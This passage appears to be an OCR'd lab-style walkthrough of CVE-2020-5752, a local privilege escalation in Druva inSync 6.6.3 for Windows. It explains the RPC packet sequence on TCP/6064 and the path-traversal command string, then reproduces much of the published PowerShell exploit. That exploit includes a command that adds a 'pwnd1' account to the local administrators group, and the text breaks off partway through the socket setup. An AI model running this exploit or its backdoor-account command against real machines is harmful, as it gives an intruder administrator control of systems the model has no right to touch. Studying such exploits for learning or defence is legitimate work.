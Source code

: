* Target is vulnerable as it runs Remote Procedure Call (RPC) server on TCP/6064 with SYSTEM privileges from localhost only.
  * RPC is mechanism that allows a process to expose functions (procedures) over a network allowing other machines to call them.
* Druva InSync exposed a procedure that allows anyone to request execution of any command.
* Understand how to talk to TCP/6064.

1. Hello Packet -> RPC server.
   * inSync PHC RPCW\[v0002]
   * Packet contains a fixed string.
2. Remote Procedure ID -> RPC Server.
   * 0x00000005
   * Execute vulnerable procedure 5.
3. Command Length -> RPC Server.
   * 62
   * Set length of command.
4. Command String -> RPC Server.
   * C:\ProgramData\Druva\inSync4\\..\\..\\..\Windows\System32\cmd.exe
   * Set command string to be executed.

* Original exploit published[ here](https://packetstormsecurity.com/files/160404/Druva-inSync-Windows-Client-6.6.3-Privilege-Escalation.html).

**1. Execute Exploit in PowerShell Console.**

* Full exploit code.

\# Exploit Title: Druva inSync Windows Client 6.6.3 - Local Privilege Escalation (PowerShell)

\# Date: 2020-12-03

\# Exploit Author: 1F98D

\# Original Author: Matteo Malvica

\# Vendor Homepage: druva.com

\# Software Link: https://downloads.druva.com/downloads/inSync/Windows/6.6.3/inSync6.6.3r102156.msi

\# Version: 6.6.3

\# Tested on: Windows 10 (x64)

\# CVE: CVE-2020-5752

\# References: https://www.matteomalvica.com/blog/2020/05/21/lpe-path-traversal/

\# Druva inSync exposes an RPC service which is vulnerable to a command injection attack.

$ErrorActionPreference = "Stop"

$cmd = "net user pwnd1 SimplePass123 /add & net localgroup administrators pwnd1 /add"

$s = New-Object System.Net.Sockets.Socket(

\[System.Net.Sockets.AddressFamily]::InterNetwork,

\[System.Net.Sockets.SocketType]::Stream,

\[System.Net.Sockets.ProtocolType]::Tcp
